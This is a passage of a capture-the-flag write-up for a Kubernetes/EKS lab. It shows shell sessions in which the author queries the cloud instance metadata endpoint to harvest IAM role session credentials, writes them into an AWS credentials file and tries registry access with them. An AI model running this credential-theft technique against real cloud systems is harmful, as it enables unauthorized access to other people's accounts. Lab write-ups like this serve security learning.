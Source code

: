 ```bash
          - fieldRef:
              apiVersion: v1
              fieldPath: metadata.namespace
            path: namespace
[...]
root@wiz-eks-challenge:~# crane config 46681.dkr.ecr.us-west-1.amazonaws.com/central_repo-579b0b7@sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4
Error: fetching config: reading image "46681.dkr.ecr.us-west-1.amazonaws.com/central_repo-579b0b7@sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4": GET https://46681.dkr.ecr.us-west-1.amazonaws.com/v2/central_repo-579b0b7/manifests/sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4: unexpected status code 401 Unauthorized: Not Authorized
root@wiz-eks-challenge:~# k exec -ti accounting-pod-acbd5209 -- /bin/bash
Error from server (Forbidden): pods "accounting-pod-acbd5209" is forbidden: User "system:serviceaccount:challenge3:service-account-challenge3" cannot create resource "pods/exec" in API group "" in the namespace "challenge3"
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
root@wiz-eks-challenge:~# ls -la ~/.aws
ls: cannot access '/home/user/.aws': No such file or directory
root@wiz-eks-challenge:~# aws ecr list-images --repository-name entral_repo-579b0b7

Unable to locate credentials. You can configure credentials by running "aws configure".
root@wiz-eks-challenge:~# crane export 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-579b0b7@sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4 -
Error: pulling 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-579b0b7@sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4: GET https://688655246681.dkr.ecr.us-west-1.amazonaws.com/v2/central_repo-579b0b7/manifests/sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4: unexpected status code 401 Unauthorized: Not Authorized
```
As we see, all the fun stuff is unavailable (expected, but still). Nothing interesting about the pod, no leftover credentials, no access to the registry also.
Let's dive further. Specifically, let's explore the instance metadata, perhaps we can find something of interest there.

```bash
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/
info
security-credentials/
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/
eks-challenge-cluster-nodegroup-NodeInstanceRole
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole
{"AccessKeyId":"ASIA2AVYNEVMQUHHPZJM","Expiration":"2025-09-05 21:20:11+00:00","SecretAccessKey":"/ktJO622Y5GSAXmqdgv+ySje4QNGRgE+...","SessionToken":"FwoGZXIvYXdzECYaDGJ/..."}
```
Nice! We have session credentials which we can use to authorize in the `awscli`.

```bash
root@wiz-eks-challenge:~# mkdir -p ~/.aws && cat << EOF > ~/.aws/credentials
> [default]
> aws_access_key = ASIA2AVYNEVMQUHHPZJM
> aws_secret_access_key = /ktJO622Y5GSAXmqdgv+ySje4QNGRgE+...
> session_token = FwoGZXIvYXdzECYaDGJ/...
> EOF
root@wiz-eks-challenge:~# aws ecr describe-registry

An error occurred (AccessDeniedException) when calling the DescribeRegistry operation: User: arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0bd90a7fe60cdb9f7 is not authorized to perform: ecr:DescribeRegistry on resource: * because no identity-based policy allows the ecr:DescribeRegistry action
```
It seems that our role is limited, after all. But that's okay, in the end we mainly want to focus on the images in the registry, not the registry itself.
